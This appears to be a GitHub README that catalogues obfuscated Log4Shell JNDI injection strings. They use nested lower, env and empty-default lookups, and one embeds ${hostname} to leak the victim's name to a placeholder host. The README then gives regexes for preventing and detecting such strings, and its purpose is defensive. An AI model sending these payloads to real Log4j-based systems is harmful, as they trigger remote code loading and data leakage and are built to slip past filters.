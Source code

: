 ## Log4j2-Obfucation

Current Log4Shell obfuscation techniques observed or reported (Also works on rmi, dns, ldaps)

# Obfuscation

```

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://test/a}

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${upper:t}est/a} 

${${env:env_name:-j}${env:env_name:-n}${env:env_name:-d}${env:env_name:-i}${env:env_name:-:}${env:env_name:-l}${env:env_name:-d}${env:env_name:-a}${env:env_name:-p}${env:env_name:-:}//test/a} (Also works on rmi, dns, ldaps)

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://test/a}

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://${hostname}.test/a}

${jndi:ldap://{$date:YYYYMMddHHmmss}.test/a}

```

# Regex

Pattern match to capture all of above

Prevent
```

.*\$\{.{0,25}j.{0,25}n.{0,25}d.{0,25}i.{0,150}:.{0,5}\/.*\}

```
Detect
```

.*\$\{(\$\{.+j\}|j)(\$\{.+n\}|n)(\$\{.+d\}|d)(\$\{.+i\}|i)(\$\{.+:\}|:).*\/.*\}

```
